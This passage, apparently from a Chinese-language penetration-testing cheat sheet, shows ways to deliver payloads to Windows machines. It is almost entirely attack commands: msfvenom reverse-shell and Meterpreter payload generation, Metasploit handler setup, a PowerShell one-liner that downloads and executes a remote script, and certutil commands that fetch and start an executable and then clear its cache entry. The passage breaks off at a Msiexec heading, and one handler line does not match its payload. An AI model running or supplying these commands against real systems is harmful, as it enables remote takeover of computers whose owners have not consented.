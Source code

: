 ### PowerShell启动BAT文件

**攻击机操作**

```bash
msfvenom -p cmd/windows/powershell_reverse_tcp lhost=192.168.1.106 lport=9999 -o 1.bat

python3 -m http.server
```

新开一个终端

```bash
msfconsole
msf > handler -p cmd/windows/powershell_reverse_tcp -H 192.168.1.106 -P 9999
```

**靶机操作**

```bash
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.106:8000/1.bat'))"
```

## Certutil

Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目标计算机中执行恶意的exe文件以获得meterpreter会话。

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f exe > 1.exe

python3 -m http.server
```

新开一个终端

```bash
msfconsole
msf > handler -p cmd/windows/powershell_reverse_tcp -H 192.168.1.106 -P 9999
```

**靶机操作**

```bash
certutil.exe -urlcache -split -f http://192.168.1.106/1.exe c:\windows\temp\1.exe & start c:\windows\temp\1.exe

certutil.exe -urlcache -split -f http://192.168.1.106/1.exe delete
```

> 缓存文件位置：
> `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

## Msiexec

### Metasploit + misexe
